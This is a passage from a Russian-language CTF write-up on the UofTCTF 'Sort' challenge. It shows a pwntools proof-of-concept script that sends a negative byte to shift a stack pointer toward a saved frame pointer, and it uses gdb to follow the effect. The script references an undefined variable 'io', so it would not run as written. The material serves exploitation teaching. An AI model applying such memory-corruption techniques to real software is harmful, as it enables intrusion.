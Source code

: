 
Меняя указатель мы будем адресоваться относительно места на стеке где лежит указатель на стековый фрейм предыдущей функции.

Посмотрим как это будет выглядеть в отладчике. Реализуем простой POC который меняет указатель.

```python
import pwn
pwn.context.terminal = ['tmux', 'splitw', '-h']
r = pwn.process('./chall')

pwn.gdb.attach(io, '''
b *sort+450
b *sort+623
''')

pwn.pause()
payload = [-15]
payload = [x & 0xFF for x in payload]

r.send(bytes(payload))
```

Запустим и посмотрим в отладчике куда передвинется наш указатель. Изначально он указывает корректно на стек.

![](/assets/UofTCTF-Sort/Pasted%20image%2020250114001241.png)

Но после одного шага цикла мы двинем его дальше.
